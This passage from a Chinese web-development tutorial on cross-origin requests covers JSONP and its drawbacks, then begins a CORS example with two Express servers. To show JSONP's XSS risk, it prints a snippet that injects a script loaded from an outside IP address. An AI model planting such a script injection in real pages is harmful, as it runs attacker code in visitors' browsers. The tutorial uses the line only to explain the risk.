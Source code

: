 ```js
    params: {
        wd: "jsonp"
    },
    cb: "show"
}).then(data => {
    // 打印请求回的数据
    console.log(data);
});
```

缺点：

* 只能发送 get 请求 不支持 post、put、delete；
* 不安全，容易引发 xss 攻击，别人在返回的结果中返回了下面代码。

```js
`let script = document.createElement('script');
script.src = "http://192.168.0.57:8080/xss.js";
document.body.appendChild(script);`;
```

> 会把别人的脚本引入到自己的页面中执行，如：弹窗、广告等，甚至更危险的脚本程序。


### 二、使用 CORS 跨域

> 跨源资源共享/CORS（Cross-Origin Resource Sharing）是 W3C 的一个工作草案，定义了在必须访问跨源资源时，浏览器与服务器应该如何沟通。CORS 背后的基本思想，就是使用自定义的 HTTP 头部让浏览器与服务器进行沟通，从而决定请求或响应是应该成功，还是应该失败。

使用场景：多用于开发时，前端与后台在不同的 ip 地址下进行数据访问。

现在启动两个端口号不同的服务器，创建跨域条件，服务器（NodeJS）代码如下：

```js
// 服务器1
const express = require(express);
let app = express();
app.use(express.static(__dirname));
app.listen(3000);

// 服务器2
const express = require("express");
let app = express();
app.get("/getDate", function(req, res) {
    res.end("I love you");
});
app.use(express.static(__dirname));
app.listen(4000);
```

由于我们的 NodeJS 服务器使用 `express` 框架，在我们的项目根目录下的命令行中输入下面代码进行安装：

> npm install express --save

通过访问 http://localhost:3000/index.html 获取 `index.html` 文件并执行其中的 `Ajax` 请求http://localhost:4000/getDate 接口去获取数据， `index.html` 文件内容如下：
